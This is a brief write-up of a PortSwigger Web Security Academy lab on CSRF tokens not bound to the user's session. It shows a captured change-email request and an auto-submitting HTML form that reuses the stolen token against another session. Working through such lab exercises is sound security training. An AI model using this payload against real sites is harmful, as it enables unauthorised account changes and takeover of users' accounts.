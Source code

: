 [PortSwigger](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

---
All I have to do here is to capture a POST form request, copy the CSRF token an drop the request. The token will be usable for someone else
**Request**
```http
POST /my-account/change-email HTTP/2
Host: 0a7200d103e329438170ca9c006c00be.web-security-academy.net
Cookie: session=IfEDZgiCTvzWA6chA18AXmj28pM6AjaH
Content-Type: application/x-www-form-urlencoded

email=super%40mail.com&csrf=28sii1u06DUieMGVu9x3m5jxzXCBuQvf
```

Then send to form to the target with the dropped token

```html
<form method="POST" action="https://0aac00ca04e1b282825a6b5f00da00cf.web-security-academy.net/my-account/change-email">
	<input type="hidden" name="email" value="kiss@love.you">
	<input type="hidden" name="csrf" value="28sii1u06DUieMGVu9x3m5jxzXCBuQvf">
</form>
<script>
	document.forms[0].submit()
</script>
```

